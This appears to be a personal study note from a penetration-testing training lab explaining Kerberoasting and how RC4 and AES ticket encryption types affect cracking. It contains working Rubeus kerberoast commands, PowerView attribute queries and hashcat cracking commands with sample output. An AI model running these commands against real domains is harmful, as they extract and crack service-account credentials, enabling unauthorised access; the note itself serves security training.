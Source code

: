 ## Note on Encryption types
When performing Kerberoasting in most environments, we will retrieve hashes that begin with `$krb5tgs$23$*`, an RC4 (type 23) encrypted ticket. Sometimes we will receive an AES-256 (type 18) encrypted hash or hash that begins with `$krb5tgs$18$*`. While it is possible to crack AES-128 (type 17) and AES-256 (type 18) TGS tickets using [Hashcat](https://github.com/hashcat/hashcat/pull/1955), it will typically be significantly more time consuming than cracking an RC4 (type 23) encrypted ticket, but still possible especially if a weak password is chosen. Let's walk through an example.

### Example
we have this user, we retrieve the tgs and see that its using `$23$`, why? cause tool requests rc4
```powershell-session
.\Rubeus.exe kerberoast /user:testspn /nowrap
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*te<snip>
```

Checking with PowerView, we can see that the `msDS-SupportedEncryptionTypes` attribute is set to `0`. The chart [here](https://techcommunity.microsoft.com/t5/core-infrastructure-and-security/decrypting-the-selection-of-supported-kerberos-encryption-types/ba-p/1628797) tells us that a decimal value of `0` means that a specific encryption type is not defined and set to the default of `RC4_HMAC_MD5`.
```powershell-session
PS C:\htb> Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes

serviceprincipalname                   msds-supportedencryptiontypes samaccountname
--------------------                   ----------------------------- --------------
testspn/kerberoast.inlanefreight.local                            0 testspn
```

cracking
```shell-session
$ hashcat -m 13100 rc4_to_crack /usr/share/wordlists/rockyou.txt
```
## account with AES encryption:
![[Pasted image 20250724120533.png]]
If we check this with PowerView, we'll see that the `msDS-SupportedEncryptionTypes attribute` is set to `24`, meaning that AES 128/256 encryption types are the only ones supported.
```powershell-session
PS C:\htb> Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes

serviceprincipalname                   msds-supportedencryptiontypes samaccountname
--------------------                   ----------------------------- --------------
testspn/kerberoast.inlanefreight.local                            24 testspn
```
Requesting a new ticket with Rubeus will show us that the account name is using AES-256 (type 18) encryption.
```powershell-session
 .\Rubeus.exe kerberoast /user:testspn /nowrap
[*] Supported ETypes       : AES128_CTS_HMAC_SHA1_96, AES256_CTS_HMAC_SHA1_96
[*] Hash                   : $krb5tgs$18$testspn$INLANEFREIGHT.LOCAL$*
```
To run this through Hashcat, we need to use hash mode `19700`, which is `Kerberos 5, etype 18, TGS-REP (AES256-CTS-HMAC-SHA1-96)`
```shell-session
$ hashcat -m 19700 aes_to_crack /usr/share/wordlists/rockyou.txt 
```
We run the AES hash as follows and check the status, which shows it should take over 23 minutes to run through the entire rockyou.txt wordlist by typing `s` to see the status of the cracking job.
